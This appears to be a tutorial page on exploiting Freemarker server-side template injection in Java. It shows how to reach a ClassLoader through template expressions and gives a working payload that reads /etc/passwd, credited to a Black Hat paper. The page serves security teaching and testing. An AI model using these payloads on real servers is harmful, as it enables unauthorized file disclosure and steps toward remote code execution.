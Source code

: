 

### Finding a reference to a classloader

Instances of the class Classloader have the potential to give us remote code execution (RCE). For instance, classloaders could be providing method load classes (Java bytecode) from external source.

Here is a list of common place where a Classloader might be returned.

 - `java.lang.Class.getClassLoader()`
 - `java.lang.Thread.getCurrentClassLoader()`
 - `java.lang.ProtectionDomain.getClassLoader()`
 - `javax.servlet.ServletContext.getClassLoader()`
 - `org.osgi.framework.wiring.BundleWiring.getClassLoader()`
 - `org.springframework.context.ApplicationContext.getClassLoader()`

This API will translate into the following Freemarker syntax.

```js
//java.lang.Object.getClass() -> java.lang.Class.getClassLoader()
${any_object.class.classLoader}
//javax.servlet.ServletRequest -> javax.servlet.ServletContext.getClassLoader()
${request.servletContext.classLoader}
```

### Not all classloader are equals

[Classloaders](https://docs.oracle.com/javase/9/docs/api/java/lang/ClassLoader.html) may have a common subclass. Their implementation differ alot. Different web containers (web server hosting a Java application) will have different classloader at runtime. Therefore we need to ajust our payload to target the right one.


#### Read file / directory listing

```xml
<#assign uri = classLoader.getResource("META-INF").toURI() >
<#assign url = uri.resolve("file:///etc/passwd").toURL() >
<#assign bytes = url.openConnection().inputStream.readAllBytes() >
${bytes}
```
(Payload taken from [Room for Escape: Scribbling Outside the Lines of Template Security](https://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf))

In our tests, we realize that bytes array are not converted automatically to a string. One way to circumvent this limitation is to extract one byte at the time.

```
${bytes[0]}
${bytes[1]}
${bytes[2]}
[...]
```

Positive
: Keep in mind that the bytes are printed in decimal format.
